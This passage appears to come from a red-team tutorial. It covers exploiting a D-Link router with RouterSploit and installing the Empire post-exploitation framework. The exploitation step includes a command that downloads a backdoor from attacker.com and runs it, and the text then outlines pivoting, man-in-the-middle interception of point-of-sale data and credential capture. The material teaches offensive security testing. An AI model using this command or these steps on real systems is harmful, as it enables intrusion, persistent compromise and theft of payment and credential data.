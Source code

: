 3. **Exploitation**:
   ```bash
   # Executed the exploit to gain command execution
   rsf (D-Link DIR-615 Unauthenticated RCE) > run
   
   # Established persistent access
   rsf (D-Link DIR-615 Shell) > execute_command "wget http://attacker.com/backdoor -O /tmp/bd && chmod +x /tmp/bd && /tmp/bd &"
   ```

4. **Network Pivoting**:
   - Used the compromised router as a pivot point to access the internal network
   - Modified routing tables to facilitate man-in-the-middle attacks
   - Intercepted unencrypted POS transaction data
   - Captured employee credentials from captive portal logins

This example demonstrates how router exploitation can provide a valuable foothold for red teams, often with minimal security controls and monitoring compared to traditional endpoints.

## Empire: Post-Exploitation Framework

PowerShell Empire (now integrated into BC-Security's Empire) is a powerful post-exploitation framework that focuses on Windows environments. It combines PowerShell, Python, and C# capabilities to provide a versatile platform for red team operations after initial access has been obtained.

### Installation

Empire is not pre-installed on Kali or Parrot OS but can be easily installed:

```bash
# Clone the repository
git clone https://github.com/BC-SECURITY/Empire.git
cd Empire

# Install
sudo ./setup/install.sh
```

### Basic Usage

To start Empire:

```bash
cd Empire
sudo ./empire
```

This launches the Empire command-line interface:

```
==================================================================================
 Empire: Post-Exploitation Framework
==================================================================================
 [Version]: 4.6.0 BC Security | [Web]: https://github.com/BC-SECURITY/Empire
==================================================================================

   _______ .___  ___. .______    __  .______       _______
  |   ____||   \/   | |   _  \  |  | |   _  \     |   ____|
  |  |__   |  \  /  | |  |_)  | |  | |  |_)  |    |  |__
  |   __|  |  |\/|  | |   ___/  |  | |      /     |   __|
  |  |____ |  |  |  | |  |      |  | |  |\  \----.|  |____
  |_______||__|  |__| | _|      |__| | _| `._____||_______|

Welcome to the Empire CLI

Empire > help
```
